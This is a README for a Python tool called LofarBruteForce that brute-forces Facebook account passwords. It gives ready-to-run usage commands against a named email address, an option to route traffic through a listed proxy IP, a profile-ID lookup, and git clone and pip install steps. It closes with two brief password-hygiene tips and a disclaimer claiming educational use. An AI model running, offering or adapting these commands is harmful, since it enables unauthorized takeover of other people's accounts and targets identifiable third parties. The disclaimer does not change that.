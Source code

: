      SCRIPT: LofarBruteForce

     JOB: Brute Force Attack On Facebook Accounts

     SCRIPT ScreeenShot:
        Usage:
        Brute Force On Facebook Account Without proxy:
        Command: python2 LofarBruteForce.YS -t Lofaralzadjali@gmail.com -w wlist.txt
        
        Brute Force On Facebook Account With Proxy:
        python2 LofarBruteForce.YS -t Lofaralzadjali@gmail.com -w wlist.txt -p 144.217.101.245:3129
        
        
        Get Target Facebook Profile ID:
        python2 LofarBruteForce.YS -g https://www.facebook.com/zuck 
        
     
     # For Install
       git clone https://github.com/MuhammadYousuf813/LofarBruteForce

       cd LofarBruteForce/

       pip install requests

       pip install mechanize

       pip2 install requests

       pip2 install mechanize


     # Supported Platforms:
       1) Windows
       2) Linux
       3) Android~Termux
       4) MacOs
       5) any Os has python(2.x, 3.x) with required modules

     # Protect yourself from this attack:
        1) Use Strong Password which contains {letters(lower,upper),tokens,numbers} make it longest as possible, at least 10            letters.
        2) Use 2F Authentication.

     # WARNING:
       1) this script is only for educational purposes
       2) i am not responsible for your actions.






